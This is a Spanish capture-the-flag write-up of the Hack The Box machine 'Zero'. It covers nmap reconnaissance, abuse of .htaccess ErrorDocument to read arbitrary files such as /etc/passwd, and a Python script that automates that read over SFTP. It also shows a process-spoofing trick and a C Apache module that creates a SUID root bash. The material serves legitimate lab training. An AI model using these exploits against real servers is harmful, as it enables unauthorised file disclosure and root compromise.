 ```yaml
---
layout: single
title: HTB: Zero
excerpt: "Zero es una máquina de Hack The Box centrada en el abuso de Apache y la explotación de configuraciones avanzadas. Aquí te muestro el proceso completo, desde el reconocimiento hasta la obtención de root."
date: 2025-09-21
classes: wide
header:
  teaser: /img/zero-cover.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Apache
  - Exploit
tags:
  - Apache
  - SFTP
  - Privilege Escalation
  - Linux
  - Root
  - CTF
---
```


<p align="center">
  <img src="/img/zero-cover.png" alt="Zero" style="height:150px;">
</p>

Zero es una máquina de Hack The Box donde el reto principal es abusar de la configuración de Apache en un entorno de hosting compartido. El objetivo es obtener acceso root explotando la gestión de procesos y la configuración personalizada del servidor web.

## Box Info

| Name | [Zero](https://hackthebox.com/machines/zero) ![Zero](/icons/box-zero.png) |
|------|:---:|
| Release Date | 12 Aug 2025 |
| Retire Date | 12 Aug 2025 |
| OS | Linux ![Linux](/icons/Linux.png) |
| Base Points | Insane [50] |
| Creator | [jkr](https://app.hackthebox.com/users/77141) |

## Recon

### Escaneo Inicial

```console
nmap -p- -vvv --min-rate 10000 10.129.234.62
nmap -p 22,80 -sCV 10.129.234.62
```

Puertos abiertos: **22/SSH** y **80/HTTP**. El servidor corre Apache 2.4.41 sobre Ubuntu 20.04.

### Sitio Web

El sitio es un proveedor de hosting que permite subir archivos vía SFTP y solo sirve páginas HTML estáticas.

#### SFTP

Se obtiene acceso SFTP con las credenciales generadas en el registro. Dentro del directorio `public_html` se encuentra un archivo `.htaccess` controlado por root y un `index.html`.

#### Prueba de ejecución PHP

Al subir archivos `.php`, el servidor solo muestra el código fuente, no lo ejecuta.

#### Abuso de .htaccess para File Read

Se puede modificar `.htaccess` para leer archivos arbitrarios usando la directiva `ErrorDocument`:

```apache
Header always set X-Zero-Customer 'zro-de834d1c'
ErrorDocument 404 %{file:/etc/passwd}
```

Al solicitar un archivo inexistente, el contenido de `/etc/passwd` se muestra en la respuesta.

#### Script para automatizar File Read

```python
# Script para leer archivos usando el vector de .htaccess
import sys
import paramiko
import requests

if len(sys.argv) != 5:
    print(f"usage: {sys.argv[0]} <host> <username> <password> <file_to_read>")
    sys.exit(1)

host, username, password, target_file = sys.argv[1:5]

def write_file(host, username, password, content):
    ssh_client = paramiko.SSHClient()
    ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh_client.connect(hostname=host, port=22, username=username, password=password)
    sftp_client = ssh_client.open_sftp()
    target_path = "public_html/.htaccess"
    sftp_client.remove(target_path)
    with sftp_client.file(target_path, "wb") as remote_file:
        remote_file.write(content)

def read_file(host, username):
    resp = requests.get(f"http://{host}/~{username}/0xdf.whatever")
    assert resp.status_code == 404
    return resp.text

htcontent = f"ErrorDocument 404 %{{file:{target_file}}}".encode()
write_file(host, username, password, htcontent)
print(read_file(host, username))
```

## Escalada de Privilegios

### Enumeración

Al obtener acceso SSH como `zroadmin` (credenciales extraídas de la base de datos), se observa que existen scripts ejecutados por root cada minuto, incluyendo `/usr/local/bin/zro.web-confcheck`.

### Abuso de procesos y apache2ctl

Se puede crear un proceso falso que simule ser Apache con argumentos controlados, y así manipular la ejecución de `apache2ctl` para incluir archivos arbitrarios o cargar módulos maliciosos.

#### Ejemplo de proceso falso en Python

```python
import os
os.execv('/bin/sleep', ['/opt/zroweb/sbin/apache2 -k start -d /opt/zroweb/conf -d /dev/shm/fileread -E /dev/shm/fileread.log -c', "223"])
```

#### Ejemplo de módulo malicioso en C

```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"

static void myinit(apr_pool_t *p, server_rec *s) {
    system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf");
}

module AP_MODULE_DECLARE_DATA mymodule = {
    STANDARD20_MODULE_STUFF,
    NULL, NULL, NULL, NULL, NULL, NULL
};

__attribute__((constructor))
static void _init() { myinit(NULL, NULL); }
```

Compilar y cargar este módulo permite obtener una shell root vía bash SUID.

## Conclusión

Zero es una máquina avanzada que explota la gestión de procesos y la configuración de Apache para lograr la escalada de privilegios. El reto principal es la creatividad para abusar de `.htaccess`, procesos y módulos personalizados.

---

**¿Te gustó el writeup?**  
Puedes ver la resolución completa en mi canal de YouTube:  
[Máquina Zero - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)